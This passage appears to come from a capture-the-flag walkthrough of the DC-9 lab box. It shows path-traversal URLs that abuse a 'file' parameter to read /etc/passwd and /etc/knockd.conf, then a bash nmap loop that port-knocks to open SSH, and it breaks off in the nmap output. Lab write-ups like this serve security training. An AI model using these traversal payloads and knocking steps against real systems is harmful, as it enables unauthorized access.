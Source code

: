 We have the parameter "file" to use to display _/etc/passwd_

![lfi](../../../assets/images/ctfs/proving_grounds/dc-9/lfi.png)

# Exploitation

---

## Determine if this is LFI vs. Directory Traversal

We can attempt to access files in the _/var/www/html_ directory like _welcome.php_ and _index.php_

```bash
URL: http://192.168.160.209/welcome.php?file=../../../../../../var/www/html/welcome.php

URL: http://192.168.160.209/welcome.php?file=../../../../../../var/www/html/index.php
```

These do not load, so this confirms it is _LFI_

## Test Port Knocking via LFI

Attempt to access the Knock Daemon at _/etc/knockd.conf_ to get the sequence to open a port.

![knockd](../../../assets/images/ctfs/proving_grounds/dc-9/knockd.png)

This gives us the sequence required to unlock the SSH service on the target.

Use the following script to unlock the port via port knocking:

```bash
# Create knock.sh
vim knock.sh

# Add the following bash scripting for loop
for x in 7469 8475 9842; do
    nmap -Pn --host-timeout 201 --max-retries 0 -p $x 192.168.160.209;
done


# Run the knock script
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ ./knock.sh
3Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 22:57 EST
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Host Discovery
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 192.168.160.209
Host is up (0.055s latency).

PORT     STATE  SERVICE
7469/tcp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 22:57 EST
Nmap scan report for 192.168.160.209
Host is up (0.054s latency).

PORT     STATE  SERVICE
8475/tcp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 22:57 EST
Nmap scan report for 192.168.160.209
Host is up (0.054s latency).

```